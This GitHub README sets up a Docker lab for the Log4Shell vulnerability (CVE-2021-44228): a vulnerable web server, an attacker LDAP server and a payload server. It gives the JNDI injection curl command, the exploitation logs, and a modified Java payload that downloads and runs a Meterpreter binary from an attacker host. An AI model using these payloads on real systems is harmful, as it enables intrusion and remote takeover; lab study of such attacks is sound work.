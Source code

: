# log4shell-dockerlab

## Credits
All credits goes to the original authors. I just git-cloned and created a docker-compose file, that's all. 

[LunaSec - log4shell 0-day](https://www.lunasec.io/docs/blog/log4j-zero-day/)
[@christophetd - log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app)
[@mbechler - marshalsec](https://github.com/mbechler/marshalsec)
[@tangxiaofen7 - Exploit.java](https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce)

## Description 
This repository contains a docker-compose setup which starts an attacker LDAP server and a victim web server that is vulnerable to log4shell (CVE-2021-44228). 

## Components 

Victim Web server - log4shell-vulnerable-app: A web server with log4j, vulnerable to first stage payload, which is the log4shell attack. 

Attacker LDAP sever - marshalsec: A LDAP server that receives jndi request from the victim web server. Redirects the victim web server to attacker web server. 

Attacker Web server - A `python3 -m http.server` server which hosts the second stage payload, which is the `Exploit.class`. 

## Usage 

Start the victim web server and the attacker ldap server 
```
docker-compose up --build 
```

Prepare the second stage payload. The port 8888 is hardcoded. To change this, modify `./marshalsec/Dockerfile`.
```
cd ./attacker-webserver
python3 -m http.server 8888
```

Attack
```
// Attack with log4shell payload 
└─# curl <your-vm-ip>:8080 -H 'X-Api-Version: ${jndi:ldap://<your-vm-ip>:1389/Exploit}'    

Hello, world!

// Docker-compose's LDAP server replying to JNDI & victim web server downloading Exploit.class from the attacker web server 
log4shell-dockerlab-targetweb-1  |
log4shell-dockerlab-jndi-1       | Send LDAP reference result for Exploit redirecting to http://172.17.0.1:8888/Exploit.class
log4shell-dockerlab-targetweb-1  | 2021-12-12 05:01:44,345 http-nio-8080-exec-7 WARN Error looking up JNDI resource [ldap://192.168.40.128:1389/Exploit]. javax.naming.NamingException: problem generating object using object factory [Root exception is java.lang.ClassCastException: Exploit cannot be cast to javax.naming.spi.ObjectFactory]; remaining name 'Exploit'
log4shell-dockerlab-targetweb-1  |      at com.sun.jndi.ldap.LdapCtx.c_lookup(LdapCtx.java:1092)

// Attacker's web server returning Exploit.class 
└─# python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
172.20.0.3 - - [12/Dec/2021 00:01:44] "GET /Exploit.class HTTP/1.1" 200 -
```

Check the attack poc 
```
// Check docker ps and find out container ID of the "targetweb"
└─# docker ps
CONTAINER ID   IMAGE                           COMMAND                  CREATED             STATUS          PORTS                                       NAMES
1131d694c91a   log4shell-dockerlab_jndi        "/usr/local/bin/mvn-…"   51 minutes ago      Up 51 minutes   0.0.0.0:1389->1389/tcp, :::1389->1389/tcp   log4shell-dockerlab-jndi-1
a2217b3781ad   log4shell-dockerlab_targetweb   "java -jar /app/spri…" 


// Check /tmp and validate the POC have worked 
└─# docker exec a2217b3781ad ls /tmp
hsperfdata_root
log4shell-pwned
```

## Usage - Modified Payload 
Instead of the `Exploit.java` POC, you can modify the payload.

Install JDK if you don't have one 
```
apt install -y default-jdk 
```

Modify the PoC. For example, you can test with a metasploit's `multi/script/web_delivery`. 
```
// Modified PoC to ship meterpreter instead of the original echo pwned > /tmp/log4shell-pwned payload. 

public class Rev {
    public Rev() {}
    static {
        try {
            String[] cmds = System.getProperty("os.name").toLowerCase().contains("win")
                    ? new String[]{"cmd.exe","/c", "calc.exe"}
                    : new String[]{"sh","-c", "wget -qO PqhJT1H2 --no-check-certificate http://192.168.40.128:7777/mhjfufvGzrRws; chmod +x PqhJT1H2; ./PqhJT1H2& disown"};
            java.lang.Runtime.getRuntime().exec(cmds).waitFor();
        }catch (Exception e){
            e.printStackTrace();
        }
    }
    public static void main(String[] args) {
        Rev e = new Rev();
    }
} 
```

Compile the second stage. Make sure to target JDK 8, since the `log4shell-vulnerable-app` was built on JDK 8. 
```
javac --release 8 <your-payload>.java 
```

Host the file, and attack again
```
python3 -m http.server 8888 
curl <your-vm-ip>:8080 -H 'X-Api-Version: ${jndi:ldap://<your-vm-ip>:1389/Exploit}'
ex) curl 192.168.40.128:8080 -H 'X-Api-Version: ${jndi:ldap://192.168.40.128:1389/Exploit}'  
```

## References 
https://www.lunasec.io/docs/blog/log4j-zero-day/
http://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-44228
https://github.com/christophetd/log4shell-vulnerable-app
https://github.com/mbechler/marshalsec
https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce
